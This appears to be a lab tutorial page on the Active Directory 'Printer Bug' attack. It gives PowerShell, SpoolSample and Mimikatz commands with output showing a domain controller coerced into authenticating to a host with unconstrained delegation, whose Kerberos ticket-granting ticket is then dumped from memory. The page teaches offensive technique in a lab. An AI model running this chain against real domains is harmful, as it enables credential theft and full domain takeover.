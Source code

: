 # Printer Bug

there is 2 device :

pc-win10 unconstrained delegation enabled and compromised

odin - Domain controller

we will force DC to authenticate pc-win10 and will extract TGT from memory

checking delegation rights

```text
PS C:\Users\Administrator> Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properti
es trustedfordelegation,serviceprincipalname,description


Description          :
DistinguishedName    : CN=PC-WIN10,OU=dirtyComputers,DC=valhalla,DC=local
DNSHostName          : pc-win10.valhalla.local
Enabled              : True
Name                 : PC-WIN10
ObjectClass          : computer
ObjectGUID           : fdeb115b-fa2a-4948-b65a-f44eae75ad1c
SamAccountName       : PC-WIN10$
serviceprincipalname : {TERMSRV/PC-WIN10, TERMSRV/pc-win10.valhalla.local, RestrictedKrbHost/PC-WIN10,
                       HOST/PC-WIN10...}
SID                  : S-1-5-21-3410397846-649609989-2919355437-2124
TrustedForDelegation : True
UserPrincipalName    :
```

Check in memory TGT with, there is no TGT in memory

```text
sekurlsa::tickets /export
```

Force DC to authenticate pc-win10

```text
PS C:\Users\testuser\Desktop> .\SpoolSample.exe odin pc-win10
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\odin, CaptureServer: \\pc-win10
Attempted printer notification and received an invalid handle. The coerced authentication probably worked!
```

Check TGT in memory

```text
sekurlsa::tickets
Authentication Id : 0 ; 879231 (00000000:000d6a7f)
Session           : Network from 0
User Name         : ODIN$
Domain            : VALHALLA
Logon Server      : (null)
Logon Time        : 25/08/2021 19:44:42
SID               : S-1-5-21-3410397846-649609989-2919355437-1001

* Username : ODIN$
* Domain   : VALHALLA.LOCAL
* Password : (null)

Group 0 - Ticket Granting Service

Group 1 - Client Ticket ?

Group 2 - Ticket Granting Ticket
[00000000]
Start/End/MaxRenew: 25/08/2021 19:05:53 ; 26/08/2021 05:05:53 ; 01/09/2021 19:05:53
Service Name (02) : krbtgt ; VALHALLA.LOCAL ; @ VALHALLA.LOCAL
Target Name  (--) : @ VALHALLA.LOCAL
Client Name  (01) : ODIN$ ; @ VALHALLA.LOCAL
Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
Session Key       : 0x00000001 - des_cbc_crc
0c2bd7c1b7134a68478aa67e76cda120e73688273c8745388fe89cb82823b586
Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
```

Rest

[Pass the Ticket](https://github.com/vanhohen/ADNinja/blob/main/Tutorials/Pass%20the%20Ticket.md)

